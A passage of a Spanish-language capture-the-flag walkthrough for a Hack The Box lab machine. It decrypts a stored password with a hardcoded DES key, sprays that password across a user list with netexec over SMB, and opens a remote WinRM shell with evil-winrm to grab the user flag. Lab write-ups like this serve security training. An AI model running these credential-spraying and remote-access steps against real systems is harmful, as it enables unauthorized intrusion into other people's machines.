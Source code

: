 {% code overflow="wrap" %}
```bash
echo '6b cf 2a 4b 6e 5a ca 0f' | xxd -r -p |  openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

## Initial Access

### Abusing WinRM- EvilWinRM

Procederemos a revisar si algún usuario de los que disponemos se puede autenticar con estas credenciales, comprobamos que el usuario "s.smith" puede autenticarse.

```bash
netexec smb 10.10.10.182 -u users.txt -p 'sT333ve2' --continue-on-success
```

<figure><img src="../../../../../.gitbook/assets/1249_vmware_o9j1TMxtLW.png" alt=""><figcaption></figcaption></figure>

Guardaremos las nuevas credenciales obtenidas en nuestro archivo "credentials.txt"

```bash
catnp credentials.txt
```

<figure><img src="../../../../../.gitbook/assets/1250_vmware_gBugsOapu3 (1).png" alt=""><figcaption></figcaption></figure>

Validaremos con **netexec** de que podemos conectarnos al WinRM, comprobamos que sí, debido que la herramienta nos reporta (**pwn3d**) y obtenemos la flag de **user.txt**.

```bash
netexec winrm 10.10.10.182 -u s.smith -p 'sT333ve2'

evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'
```
